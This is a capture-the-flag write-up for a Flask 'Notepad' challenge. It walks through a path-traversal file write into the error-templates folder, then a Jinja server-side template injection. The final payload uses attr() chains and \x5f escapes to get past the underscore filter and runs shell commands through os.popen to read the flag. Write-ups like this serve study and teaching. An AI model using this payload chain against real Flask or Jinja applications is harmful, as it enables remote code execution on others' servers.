 
# Notepad

Jinja template engine injection possibilities.


# Problem

The challenge is to bypass the filters in order to get a successfully executed
python code inside the rendered templates on the server-side.

The server is implemented in Flask, and uses a template engine there which renders
the error templates; and assumes that are safe to render with the `request` object.



# Solution

In order to successfully write to an error template file, we need to achieve the following:

- The input must be `> 128 bytes` and `< 512 bytes` so that it doesn't trigger the `long content` error condition.
- The input must not use `_` and `/`, otherwise it will be filtered out.
- The input generates a filename based on the first `128 bytes` of the content, which means that we can modify the path it is written to.
- The generated filename also uses a `urlfix` suffix which makes it harder to read/write to other files.


## 1. Write a file that gets rendered with the template engine

If we type in the following content into the textarea, we'll successfully write to a file in the `/templates/error` folder:

```plaintext
..\templates\errors\aaa... (repeat ~128 times)
```

The `POST` request of the form will redirect to another page, which contains the generated URL.

We copy the URL of the `/static/templates/aaa...-suffix.html` and we modify it so that it looks
like this: `http://server:port/?error=aaa...-suffix`. This will successfully render our generated
file, because the error parameter will include and render the file directly via the [index template](./challenge/templates/index.html).


## 2. Execute injected python code

Now the next goal is to execute our injected code on the server. Note the trailing `{{...}}` brackets
which will let the template engine render our computed output of the expression (`91`) instead of
the actual text.

```plaintext
..\templates\errors\aaa... (repeat ~128 times)

{{ 13*7 }}
```


## 3. Execute code on the system

Now the fun part. We need to get access to some nice APIs we can use, because using `import "os"` doesn't
work. Lucky for us, the Python Inheritance model allows us to get access to the `globals` and therefore
pretty much everything that is loaded and imported already.

The [app.py](./challenge/app.py) filters out the `_` character, though, so we have to get a little creative.

We want access to the following API code:

```python
request.application.__globals__.__builtins__.__import__('os').listdir()
```

The above code translates to the following code in `attr(...)` form that bypasses the filter. Note that for
each property we have to use the internal `__getitem__(...)` method, and we use `\x5f` which is the urlencoded
variant of `_`.

```python
request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("listdir")()
```

After we've rendered the above generated error template, it returns us this:

```plaintext
\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcdefg
['templates', 'static', 'flag-c8f5526c-4122-4578-96de-d7dd27193798.txt', 'app.py']
```

## 4. Reading the flag file

After trying out some code to read the file, we had the problem that most of the APIs require an assignment which crashes the server,
and that's why we decided to use the `os.popen(...shell command...).read()` method to get the contents. All other python APIs need
either an import statement or a file descriptor which needs an assignment, so they couldn't be used.

So the final `template exploit code` looks like this:

```plaintext
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcdefg {{
request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt")|attr("read")()
}}
```


